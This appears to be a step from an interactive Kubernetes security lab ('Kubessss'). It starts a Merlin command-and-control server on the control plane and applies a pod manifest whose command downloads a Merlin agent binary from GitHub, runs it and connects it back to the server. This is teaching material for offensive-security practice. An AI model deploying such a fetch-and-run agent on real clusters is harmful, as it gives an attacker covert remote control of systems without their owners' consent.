 Here we will see the basic settings of Kubessss.

## Basics of Kubessss

#### Server

	
The server is located in the `controlplane` with a configuration file `config.yaml`.    
The server uses this file to create a listener to a given protocol, interface and port.   
The server IP that should be inside the Interface is `kubectl get nodes -o jsonpath='{ $.items[?(@.metadata.name=="controlplane")].status.addresses[?(@.type=="InternalIP")].address }{"\n"}'`{{execute}}.  

Verify that the `config.yaml` file contains the server IP address: `cat config.yaml`{{execute}}

Start the server `./merlinServer-Linux-x64`{{execute}}.    
To view the menu, run `help`{{execute}} and to see the list of modules run `use module <TAB>`.  
*You can use the `TAB` in any place to see the list commands.  


#### Agent

`Open`{{execute T3}} new terminal on the master and start this vulnerable container:  
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: priv-container
spec:
  containers:
  - name: priv-container
    image: ubuntu
    command: [ "sh", "-c", "apt update && apt install wget -y && wget https://github.com/g3rzi/katacodaScenario/releases/download/0.1/merlinAgent-Linux-x64 && chmod +x merlinAgent-Linux-x64 && ./merlinAgent-Linux-x64 -url https://$HOST_IP:443", "sleep infinity" ]
EOF```{{execute T2}}  



Go to the first terminal of the master and check if a new connection was received with the message "New authenticated agent checkin..".  
Once you see it, run `main`{{execute T1}} and then `agent list`{{execute T1}} to see the new connection details.  

